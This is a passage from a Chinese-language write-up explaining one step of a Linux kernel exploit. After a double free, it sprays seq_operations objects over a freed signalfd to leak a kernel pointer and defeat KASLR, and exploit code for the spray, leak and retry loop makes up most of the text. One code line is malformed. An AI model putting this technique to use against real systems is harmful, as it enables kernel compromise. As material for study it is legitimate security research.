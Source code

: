     ```
    struct seq_operations {
     void * (*start) (struct seq_file *m, loff_t *pos);
     void (*stop) (struct seq_file *m, void *v);
     void * (*next) (struct seq_file *m, void *v, loff_t *pos);
     int (*show) (struct seq_file *m, void *v);
    };
    
    ```
    
    当 double free 时，通过 signal 分配，并且再次分配 seq_operations 结构，就会发生重叠，当读取 read signal 分配的前 8 个字节，其实读取到的 seq_operations 的 single_start 函数的地址，减去基址偏移就可以绕过 kalsr（内核地址随机化了）

通过以上理解，读代码时就简单了

```
int proc_self = open("/proc/self", O_RDONLY);
 
/* Releasing the signalfd object that was corrupted by our overlapping one */
if (corrupt_fd)
    close(corrupt_fd);
 
/* Checking the value read by the overlapping fd */
uint64_t = get_sigfd_sigmask(overlapping_fd);
debug_printf("Value @X after freeing `corrupt_fd`: 0x%lx", mask);
 
/* Allocating seq_operations objects so that it overlaps with our signalfd */
retry:
for (int i = 0; i < NB_SEQ; i++) {
    seq_fd[i] = openat(proc_self, "stat", O_RDONLY);
    if (seq_fd[i] < 0)
        debug_printf("Could not allocate seq ops (%d - %s)", i, strerror(errno));
}
 
/* Reading the value after spraying */
mask = get_sigfd_sigmask(overlapping_fd);
debug_printf("Value @X after spraying seq ops: 0x%lx", mask);
 
/* Checking if the KASLR leak read meets the condition */
kaslr_leak = mask - SINGLE_START;
if ((kaslr_leak & 0xffff) != 0) {
    debug_print("Could not leak KASLR slide");
 
    /* If not, we close all seq_fds are try again */
    for (int i = 0; i < NB_SEQ; i++) {
        close(seq_fd[i]);
    }
 
    goto retry;
}
 
/* If it works we display the KASLR leak */
debug_printf("KASLR slide: %lx", kaslr_leak);

```
